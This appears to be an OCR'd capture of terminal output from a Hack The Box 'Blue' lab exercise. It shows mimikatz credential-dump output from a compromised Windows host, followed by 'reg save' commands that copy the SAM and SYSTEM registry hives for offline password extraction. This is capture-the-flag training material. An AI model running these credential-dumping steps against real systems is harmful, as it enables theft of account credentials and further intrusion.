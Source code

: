 Authentication Id : 0 ; 999 (00000000:000003e7)
Session           : UndefinedLogonType from 0
User Name         : HARIS-PC$
Domain            : WORKGROUP
Logon Server      : (null)
Logon Time        : 29/04/2021 03:09:23
SID               : S-1-5-18
	msv :	
	tspkg :	
	wdigest :	
	 * Username : HARIS-PC$
	 * Domain   : WORKGROUP
	 * Password : (null)
	kerberos :	
	 * Username : haris-pc$
	 * Domain   : WORKGROUP
	 * Password : (null)
	ssp :	
	credman :	

mimikatz(powershell) # exit
Bye!
root@kali:~/HTB/BLUE/AutoBlue-MS17-010# 



C:\Windows\system32>reg save HKLM\SAM sam.backup
reg save HKLM\SAM sam.backup
The operation completed successfully.

C:\Windows\system32>reg save HKLM\SYSTEM system.backup
reg save HKLM\SYSTEM system.backup
The operation completed successfully.

C:\Windows\system32>dir sam.backup
dir sam.backup
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Windows\system32

29/04/2021  03:31            28,672 sam.backup
               1 File(s)         28,672 bytes
               0 Dir(s)  17,188,548,608 bytes free

C:\Windows\system32>dir system.backup
dir system.backup
 Volume in drive C has no label.
 Volume Serial Number is A0EF-1911

 Directory of C:\Windows\system32

29/04/2021  03:31        10,608,640 system.backup
               1 File(s)     10,608,640 bytes
               0 Dir(s)  17,188,548,608 bytes free
